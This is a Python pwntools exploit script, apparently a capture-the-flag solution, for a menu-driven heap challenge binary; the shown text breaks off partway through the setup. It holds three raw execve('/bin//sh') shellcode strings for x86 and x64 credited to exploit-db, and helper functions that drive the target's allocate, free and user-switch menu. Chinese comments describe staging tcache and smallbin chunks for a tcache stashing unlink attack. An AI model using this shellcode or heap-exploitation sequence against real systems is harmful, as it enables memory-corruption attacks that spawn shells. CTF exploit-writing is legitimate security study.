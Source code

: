 ```python
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def menu(cmd):
    sla('Choice: ',cmd)
def add(size, content):
    menu(1)
    sla('size: ',size)
    sa('message: ',content)
def show(idx):
    menu(2)
    sla('index: ',idx)
def edit(idx, content):
    menu(3)
    sla('index: ',idx)
    sa('message: ',content)
def free(idx):
    menu(4)
    sla('index: ',idx)
def change(user):
    menu(5)
    if user == 1:
        sla('user:\n', 'A\x01\x95\xc9\x1c')
    elif user == 2:
        sla('user:\n', 'B\x01\x87\xc3\x19')
    elif user == 3:
        sla('user:\n', 'C\x01\xf7\x3c\x32')

#--------------------prepare for tcache stashing unlink attack-------------
#首先是布置tcache stashing unlink attack，在tcachebin中准备五个chunk，在smallbin中准备两个chunk
change(2)
for i in range(5):#B0-B4
    add(0x90,'a'*0x30)
    free(i)

change(1)
add(0x130,'a'*0x60)#A0
for i in range(1,8):#A1-A7
    add(0x130,'a'*0x60)
    free(i)
    
free(0)
change(2)
add(0x90,'a'*0x30)#B5
change(1)
add(0x150,'a'*0x70)#A8

for i in range(9,16):#A9-A15
    add(0x150,'a'*0x70)
    free(i)

free(8)
change(2)
add(0xb0,'a'*0x30)#B6
```